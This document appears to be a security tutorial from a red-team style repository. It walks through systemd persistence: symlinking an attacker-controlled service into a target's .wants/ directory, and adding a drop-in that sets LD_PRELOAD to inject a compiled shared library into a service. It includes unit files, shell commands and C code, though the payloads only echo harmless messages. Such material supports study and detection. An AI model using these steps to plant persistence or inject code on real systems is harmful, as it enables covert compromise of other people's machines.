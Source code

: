 # Systemd Autoruns

## Description

This section walks through various methods of automatically executing code,
much like Windows "Autoruns" registry entries.

## Target Wants/Requires

In systemd, targets are unit files which are "used for grouping units and as well-known synchronization points during start-up".
For systemd to know which unit files a specific target activates, it uses the `Wants` and `Requires` directives in the target's unit file,
or `<target>.wants/` and `<target>.requires/` directories with links to the units to activate.

These directories are easy places to store symbolic links to attacker-controlled unit files, especially service files which will then activate
once the specified target is executed. The following walkthrough will detail identifying the default target and placing a service file
in its `.wants/` directory to execute a command during the boot process.

**Source**: <https://www.freedesktop.org/software/systemd/man/systemd.target.html>

### Additional Notes

* Root access is required to write into the default target's `.wants/` directories
* Unit files can be anywhere on the filesystem - they only must be linked into the appropriate directory

### Step by Step

1. Generate the service file

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=Basic service
Documentation=https://github.com/infosec-intern/sneaky-systemd-shit

[Service]
Type=oneshot
ExecStart=/bin/echo "autoruns ftw"
```

2. Identify the default target

```sh
$ systemctl get-default
graphical.target
```

3. Identify the default target's `.wants/` directories

```sh
$ find / -type d -name graphical.target.wants -exec ls -ld {} \;
drwxr-xr-x 2 root root 4096 Dec 20 09:30 /etc/systemd/system/graphical.target.wants
drwxr-xr-x 2 root root 4096 Dec 20 09:11 /usr/lib/systemd/system/graphical.target.wants
```

4. Install the service (root required)

```sh
$ sudo ln -s `pwd`/autorun.service /etc/systemd/system/graphical.target.wants
$
```

5. Reboot the system to trigger the target and check the journal for output

```sh
$ journalctl -b 0 | grep -i "Starting Autorun Service" -A1
Jan 31 04:34:05 localhost systemd[1344]: Starting Autorun Service...
Jan 31 04:34:05 localhost echo[1566]: autoruns ftw
```

## Drop-Ins

Drop-ins are configuration files which extend services by adding additional directives to a unit without modifying the original service file.
For systemd to know which configuration files to include, it requires a directory of the same name as the service plus `.d` to be created.
For example, a service file `foo.service` requires a drop-in directory to be named `foo.service.d/`. This also works for unit aliases, so if
`foo.service` was also aliased as `bar.service` both `foo.service.d/` and `bar.service.d/` will be accepted as drop-in directories.

These directories are easy places to store malicious commands or environment information, like adding an `LD_PRELOAD` variable to load a malicious file into the specified process or adding additional `Exec` directives to a unit.

**Source**: <https://www.freedesktop.org/software/systemd/man/systemd.unit.html#Description>

### Additional Notes

* This particular example leverages systemd to perform code injection via LD_PRELOAD. Here are some additional sources on how LD_PRELOAD works:
  * https://jvns.ca/blog/2014/11/27/ld-preload-is-super-fun-and-easy/
  * http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/
  * https://medium.com/forensicitguy/whitelisting-ld-preload-for-fun-and-no-profit-98dfea740b9

### Step by Step

1. Generate the service file

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=Autorun Service
Documentation=https://github.com/infosec-intern/sneaky-systemd-shit

[Service]
Type=oneshot
ExecStart=/bin/echo "autoruns ftw"
```

2. Generate a drop-in .conf file

```ini
[Service]
Environment=LD_PRELOAD=/tmp/preload.so
```

2. Generate the module to preload from the below C code

```c
#include <stdio.h>

/*
    This is NOT MY CODE
    Code borrowed from @ForensicITGuy's libpreloadvaccine project
    Source: https://github.com/ForensicITGuy/libpreloadvaccine/blob/master/test/test_data/preload.c
*/

static void init(int argc, char **argv, char **envp) {
    printf("Preload Successful!\n");
}

__attribute__((section(".init_array"), used)) static typeof(init) *init_p = init;
```

```sh
$ gcc -g fPIC -shared -o /tmp/preload.so `pwd`/preload.c
```

3. Install into the systemd user folder on the victim and reload the units

```sh
$ mkdir -p ~/.config/systemd/user/autorun.service.d
$ ln -s `pwd`/autorun.service ~/.config/systemd/user
$ ln -s `pwd`/ld_preload.conf ~/.config/systemd/user/autorun.service.d/
$ systemctl --user daemon-reload
```

5. Check the journal for output - you should see the message "Preload Successful!"

```sh
$ journalctl -b 0 | grep -i "Starting Autorun Service" -A2
Mar 20 19:38:24 localhost systemd[1772]: Starting Autorun Service...
Mar 20 19:38:24 localhost echo[3265]: Preload Successful!
Mar 20 19:38:24 localhost echo[3265]: autoruns ftw
```
